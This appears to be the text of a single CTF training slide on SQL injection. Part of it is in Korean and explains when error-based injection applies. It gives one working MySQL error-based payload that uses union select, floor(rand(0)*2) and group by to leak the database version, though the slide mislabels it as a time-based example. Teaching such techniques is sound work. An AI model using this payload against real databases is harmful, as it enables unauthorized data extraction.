

Attack & Defense CTF
SQL Injection
Error Based SQL Injection
쿼리 사용이 가능하고 에러문을 그대로 출력할 경우 사용
Time Base SQL Injection 쿼리 예제
1’ union select sum(1),concat(version(),floor(rand(0)*2)) as A from information_schema.tables group by A